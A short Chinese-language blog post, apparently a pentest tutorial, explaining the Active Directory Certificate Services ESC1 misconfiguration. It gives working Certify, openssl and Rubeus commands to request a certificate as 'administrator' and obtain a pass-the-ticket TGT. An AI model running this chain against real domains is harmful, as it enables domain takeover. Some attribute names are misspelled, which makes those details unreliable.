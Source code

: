 #### ESC1  
- 颁发CA授予低权限用户请求权限(默认)  
- 模版中CA管理员审批未启用(默认)  
- 模版中不需要授权的签名(默认)  
- 模版允许低权限用户注册  
- 模版定义了启用认证的EKU  
- 证书模版允许请求者在CSR中指定一个SAN  
当满足上述条件时，攻击者在请求证书时可以通过  
`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`字段来声明自己的身份，从而获取到伪造身份的证书。  
可以使用`certify.exe`来查看我们配置，发现`msPKI-Sertificate-Name-Flag`的属性值为`ENROLLEE_SUPPLIES_SUBJECT`，也就是可以指定使用者身份。  
可以利用此模版来申请一个证书。  
```  
certify.exe request /ca:CA-Server.com /template:ECSC1 /altname:administrator  
```  
把密钥复制出来，保存在`ESC1.pem`，然后利用`openssl`来转换成`pfx1`。  
- key后缀，只包含私钥  
- crt/cer后缀，只包含公钥  
- csr后缀，证书申请文件，不包含公私钥。  
- pfx/pem/p12后缀，包含公私钥  
```  
openssl pkcs12 -in ESC1.pem -keyex -CSP &#34;Microsoft Enhanced CryptoGraphic Provider v1.0&#34; --export -out ESC1.pfx  
```  
利用`Rubeus.exe`来申请所需要的`TGT`，此处的`ESC1.pfx`就是我们刚刚申请的证书。  
`Rubeus.exe asktgt /user:administrator /certificate:ESC1.pfx /dc:1.1.1.1 /ptt`  
  
## Reference  
https://tttang.com/archive/1593/  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/adcs%E6%94%BB%E5%87%BB/  

